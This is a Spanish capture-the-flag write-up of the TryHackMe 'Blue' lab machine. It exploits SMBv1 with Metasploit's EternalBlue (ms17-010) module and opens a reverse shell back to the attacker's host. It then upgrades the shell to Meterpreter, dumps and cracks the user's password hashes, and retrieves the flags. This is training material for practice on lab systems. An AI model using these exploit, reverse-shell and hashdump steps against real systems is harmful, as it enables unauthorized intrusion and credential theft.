








# Máquina Blue
[](README.md) [](README.es.md)

## Dificultad: Fácil



Empezamos haciendo un ping a la máquina objetivo. Vemos que está activa y por el ttl de 128, sabemos que es una máquina Windows.

```bash
ping -c 1 10.10.12.50
```



Para enumerar, voy a usar nmap, con -sC para usar los scripts de reconocimiento por defecto,-sV para detectar versiones de los servicios, -sS para que sea en modo sigiloso, y -p- para que escanee todos los puertos.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```


De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dónde puede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  La versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombre del Host: **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. Vemos que tanto **SMBv1** (smb-security-mode) como **SMBv2** (smb2-security-mode) están activos.

Ahora tenemos que encontrar alguna vulnerabilidad que explotar.

Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. Buscanddo en Google sobre esta versión del SO encontré esto:



Vemos que EternalBlue es un exploit que afecta a SMBv1 y entre otras la versión de Windows de la máquina objetivo. Este exploit permite ejecutar código remote en la máquina objetivo. Si bien ya fue parcheado, no sabemos si la máquina que atacamos ha sido parcheada. Podemos probarlo.

Abrimos metasploit con el comando:

```shell
msfconsole
```
Buscamos el exploit con:

```shell
search ms17-010
```



Seleccionamos el exploit con:

```shell
use 0
```

El payload que usa por defecto es suficiente, y nos dará acceso a la máquina con una shell inversa de Meterpreter pero, Tryhackme, para que practiquemos el paso de una shell normal de Windows a una shell de Meterpreter, nos sugiere usar en su lugar el siguiente payload para obtener una shell inversa normal de Windows:

```shell
set payload windows/x64/shell/reverse_tcp
```


Debemos ajustar la dirección del host remoto.

```shell
set RHOSTS 10.10.12.50
```

Y el host local. Vemos nuestra ip con el comando:

```shell
ip a
```

Y lo ajustamos:

```shell
set LHOST 10.10.162.56
```
Ahora ejecutamos el exploit con:

```shell
run
```

Efectivamente, la máquina es vulnerable al explot EternalBlue, si todo ha salido bien, deberíamos ver algo similar a esto:



Ya tenemos la shell inversa de Windows. Ahora dejamos la sesión en segundo plano con **ctrl + z** Y vamos  usar el módulo **post/multi/manage/shell_to_meterpreter** para realizar la escalada de privilegios a la shell de meterpreter.

Ahora tenemos que especificarle la sesión en la que conseguimos la shell inversa. Lo podemos comprobar con el comando:

```shell
sessions -l
```

Si solo has hecho esto será la 1.

Ahora usamos **run** para ejecutar el exploit. Este paso puede dar problemas en esta máquina, a mi me falló la primera vez y tuve que reiniciar la máquina, por eso tiene una ip distinta ahora. Si sale bien veremos algo similar a esto:


Ahora tenemos usa sesión con la shell inversa de meterpreter, que es la sesión 2. La activamos con el comando:

```shell
sessions -i 2
```

Ya la tenemos, podemos usar **whoami** para comprobar que tenemos los privilegios nt authority\system:


Nosotros tenemos privilegios de administrador, pero nuestro proceso puede no tenerlos. Por tanto, vamos a migrar a un proceso que los tenga, usamos **ps** para listar los procesos:


En mi caso voy a migrar a conhost.exe, intenté previamente migrar a svchost.exe pero me negaba el acceso. Para ellos usamos el comando **migrate** indicando el PID del proceso:

```shell
migrate 352
```


Ahora se nos pide la contraseña del usuario Jon. Vamos a usar **hashdump** para obtener el hash de la misma:


Ahora hay varias formas de crackear el hash. Podríamos usar John the Ripper y tratar de sacarlo mediante listas de palabras, yo he usado Crackstation por ser más rápido.



Ahora, para la primera bandera, nos dicen que está en la raíz del sistema. Que lo normal es que sea C:

```shell
cd C:\\
ls
cat flag.txt
```


Nos dicen que la segunda bandera está dónde se almacenan las contraseñas de Windows. Es decir en **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```


La bandera 3, nos dicen que está dónde los administradores suelen guardar cosas importantes. Voy por tanto a C:\Users y el único usuario es Jon. Dentro de Jon, busco en Desktop, Downloads, y finalmente Documents, dónde se encuentra la última bandera.


Por cierto, cuando te das cuenta de que se van a llamar flag1.txt, flag2.txt, etc, meterpreter tiene el comando **search -f** al que le pasas el nombre del fichero y te muestra la ruta al mismo. Ejemplo con flag3.txt:

```shell
search -f flag3.txt
```



Y con esto ya hemos resuelto la máquina.

